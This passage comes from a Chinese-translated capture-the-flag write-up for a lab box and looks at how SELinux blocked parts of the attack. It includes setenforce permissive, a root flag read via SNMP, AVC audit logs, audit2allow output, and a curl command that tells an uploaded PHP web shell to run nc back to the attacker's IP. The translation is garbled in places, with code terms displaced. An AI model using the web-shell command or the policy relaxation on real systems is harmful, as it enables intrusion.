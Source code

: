     [root@pit monitoring]# setenforce permissive
    

然后重新触发 SNMP 脚本以获取根标志：

    NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".9 = STRING: root flag:
    NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".10 = STRING: 452a9b73************************ 
    

日志在 创建位置。当我尝试使用 SNMP 读取并被阻止时，创建了以下日志：`/var/log/audit/audit.log``root.txt`

    type=AVC msg=audit(1632502921.588:5222): avc:  denied  { read } for  pid=14471 comm="cat" name="root.txt" dev="dm-0" ino=2435300 scontext=system_u:system_r:snmpd_t:s0 tcontext=unconfined_u:object_r:admin_home_t:s0 tclass=file permissive=0
    

在许可模式下，创建了三个日志：

    type=AVC msg=audit(1632502973.982:5226): avc:  denied  { read } for  pid=14524 comm="cat" name="root.txt" dev="dm-0" ino=2435300 scontext=system_u:system_r:snmpd_t:s0 tcontext=unconfined_u:object_r:admin_home_t:s0 tclass=file permissive=1
    type=AVC msg=audit(1632502973.982:5226): avc:  denied  { open } for  pid=14524 comm="cat" path="/root/root.txt" dev="dm-0" ino=2435300 scontext=system_u:system_r:snmpd_t:s0 tcontext=unconfined_u:object_r:admin_home_t:s0 tclass=file permissive=1
    type=AVC msg=audit(1632502973.982:5227): avc:  denied  { getattr } for  pid=14524 comm="cat" path="/root/root.txt" dev="dm-0" ino=2435300 scontext=system_u:system_r:snmpd_t:s0 tcontext=unconfined_u:object_r:admin_home_t:s0 tclass=file permissive=1
    

第一个日志与上一个日志完全相同，只是而不是 0。这两个都是为了系统调用。在许可模式下接下来的两个登录是用于 和 on 。`permissive=1``read``open``getattr``root.txt`

在所有日志中，我可以看到问题出在尝试访问的角色上。如果我通过管道将该日志插入 ，它显示了如何使系统不阻止它：`snmpd_t``admin_home_t``audit2allow`

    [root@pit audit]# cat audit.log | grep read | grep root.txt | tail -1 | audit2allow 
    
    #============= snmpd_t ==============
    allow snmpd_t admin_home_t:file read;
    

在这种情况下，需要访问 。`snmpd_t``file read``admin_home_t`

### 网络外壳

来自网络外壳的反壳是另一个被阻挡的东西。事实上，与我的任何联系都被封锁了。为了演示，我将运行网络外壳以仅连接到我的主机：`nc`

    oxdf@parrot$ curl -G --data-urlencode 'cmd=nc 10.10.14.7 443' http://dms-pit.htb/seeddms51x/data/1048576/29/1.php
    

它会生成以下日志：

    type=AVC msg=audit(1632504453.554:5282): avc:  denied  { name_connect } for  pid=15554 comm="nc" dest=443 scontext=system_u:system_r:httpd_t:s0 tcontext=system_u:object_r:http_port_t:s0 tclass=tcp_socket permissive=0
    type=SYSCALL msg=audit(1632504453.554:5282): arch=c000003e syscall=42 success=no exit=-13 a0=3 a1=5635357392c0 a2=10 a3=3 items=0 ppid=15428 pid=15554 auid=4294967295 uid=992 gid=988 euid=992 suid=992 fsuid=992 egid=988 sgid=988 fsgid=988 tty=(none) ses=4294967295 comm="nc" exe="/usr/bin/ncat" subj=system_u:system_r:httpd_t:s0 key=(null)ARCH=x86_64 SYSCALL=connect AU U G EU SU FSU EG SG FSG
    type=PROCTITLE msg=audit(1632504453.554:5282): proctitle=6E630031302E31302E31342E3700343433
    